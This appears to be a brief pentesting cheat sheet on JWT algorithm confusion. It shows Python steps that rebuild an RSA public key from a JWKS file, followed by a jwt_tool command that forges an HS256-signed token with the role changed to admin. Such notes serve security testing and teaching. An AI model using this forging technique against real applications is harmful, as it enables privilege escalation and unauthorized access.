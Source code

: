 ```yaml
---
title: "JWT"
date: 2024-8-1
tags: ["jwt", "jwks", "forge", "cookies"]
---
```


### Abuse #1: Algorithm confusion

#### 0. Sample jwks.json

```console
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

#### 1. Create a public key

```console
# Invoking python interpreter
python3
```

```console
from base64 import urlsafe_b64decode
```

```console
from Crypto.PublicKey import RSA
```

```console
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```console
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_N>'))
```

```console
key = RSA.construct((n, e))
```

```console
# Save it to public.pem
print(key.exportKey().decode())
```

#### 2. Forge a jwt

```console
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

<small>*Ref: [jwt_tool](https://github.com/ticarpi/jwt_tool)*</small>
